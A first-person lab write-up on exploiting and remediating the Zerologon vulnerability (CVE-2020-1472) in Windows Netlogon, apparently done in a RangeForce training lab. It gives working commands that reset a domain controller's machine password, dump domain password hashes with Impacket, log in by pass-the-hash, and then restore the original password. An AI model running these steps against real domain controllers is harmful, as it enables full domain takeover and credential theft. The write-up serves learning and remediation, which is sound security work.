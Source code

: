 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**I have tried to reproduce the vulnerability in this blog entry, while trying to understand it's severity and impact**

\====================================================================

### **Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

**About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020​

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

\====================================================================

### **Exploitable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

\====================================================================

### **Exploitation Walkthrough**

> What do you need?&#x20;
>
> Impacket — to capture password hashes and dump them&#x20;
>
> Windows 10 OS (on which the vulnerable service exists)&#x20;
>
> Windows 10 VM — to perform the exploit on RangeForce’s&#x20;
>
> ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github&#x20;

Step to install:-

> git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC IP address: 192.168.0.4

> Syntax of exploit command:- ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> ./cve-2020–1472-exploit.py -n DC -t 192.168.0.4​

![What does this exploit do?](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

**What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string

**Next objective-**dump password hashes from the Domain Controller

> Domain Controller name NetBios Name IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\\[email protected]>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\\$@192.168.0.4

![This leads to the dumping of around 60 password](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

&#x20;This leads to the dumping of around 60 password hashes:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

​**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-​

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-

> python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/DC\\$@192.168.0.4

​We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

\====================================================================

### **S**​**ection 2 — Remediation from the Vulnerability**

**How?**

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

**(Manual Password Restore) — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

​Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL Why parse? — To see where accounts are mapped to and to gain other information​![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> ./reinstall\_original\_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

\====================================================================

### **Conclusion** <a href="#investigating-windows" id="investigating-windows"></a>

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Thank you for the time taken to devour this purple team blog entry.
